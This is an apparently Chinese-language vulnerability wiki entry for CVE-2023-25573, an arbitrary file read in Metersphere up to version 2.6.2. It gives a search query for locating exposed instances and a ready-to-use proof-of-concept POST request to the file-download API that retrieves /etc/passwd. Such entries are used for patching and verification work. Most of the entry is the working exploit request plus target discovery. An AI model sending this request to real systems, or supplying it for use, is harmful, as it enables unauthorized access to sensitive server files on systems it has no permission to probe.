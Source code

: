 # Metersphere file 任意文件读取漏洞 CVE-2023-25573

## 漏洞描述

Metersphere file 接口存在任意文件读取漏洞，攻击者通过接口可以获取敏感文件压缩包

## 漏洞影响

<a-checkbox checked>Metersphere <=2.6.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app.name="MeterSphere"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1682156003733-4bf0790b-5111-4258-b8e5-ff8fd83cb017.png)

验证POC

```plain
POST /api/jmeter/download/files
Content-Type: application/json

{"reportId":"pass","bodyFiles":[{"id":"aaa","name":"/etc/passwd"}]}
```

![img](/assets/PeiQi-Wiki/img/1682155967782-ec79b940-cc14-4615-a984-b645bfc9fedd.png)
